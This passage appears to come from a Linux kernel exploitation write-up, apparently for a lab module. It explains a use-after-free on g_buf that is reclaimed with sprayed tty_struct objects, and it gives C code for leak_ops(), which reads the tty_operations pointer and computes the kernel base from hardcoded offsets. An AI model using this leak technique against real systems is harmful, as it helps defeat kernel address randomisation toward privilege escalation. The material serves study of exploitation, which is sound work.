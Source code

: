 So with our `module_read` ability, we will simply:

1. Free `g_buf`
2. Create `dev_tty` structs until one hopefully fills the freed space where `g_buf` used to live
3. Call `module_read` to get a copy of the `g_buf` which is now actually our `dev_tty` and then inspect the value of `tty_struct->tty_operations`. 

Here are some snippets of code related to that from the exploit:

```c
// Leak a tty_struct->ops field which is constant offset from kernel base
uint64_t leak_ops(int fd) {
    if (fd < 0) {
        err("Bad fd given to `leak_ops()`");
    }

    /* tty_struct {
        int magic;      // 4 bytes
        struct kref;    // 4 bytes (single member is an int refcount_t)
        struct device *dev; // 8 bytes
        struct tty_driver *driver; // 8 bytes
        const struct tty_operations *ops; (offset 24 (or 0x18))
        ...
    } */

    // Read first 32 bytes of the structure
    unsigned char *ops_buf = calloc(1, 32);
    if (!ops_buf) {
        err("Failed to allocate ops_buf");
    }

    ssize_t bytes_read = read(fd, ops_buf, 32);
    if (bytes_read != (ssize_t)32) {
        err("Failed to read enough bytes from fd: %d", fd);
    }

    uint64_t ops = *(uint64_t *)&ops_buf[24];
    info("tty_struct->ops: 0x%lx", ops);

    // Solve for kernel base, keep the last 12 bits
    uint64_t test = ops & 0b111111111111;

    // These magic compares are for static offsets on this kernel
    if (test == 0xb40ULL) {
        return ops - 0xc39b40ULL;
    }

    else if (test == 0xc60ULL) {
        return ops - 0xc39c60ULL;
    }

    else {
        err("Got an unexpected tty_struct->ops ptr");
    }
}
```

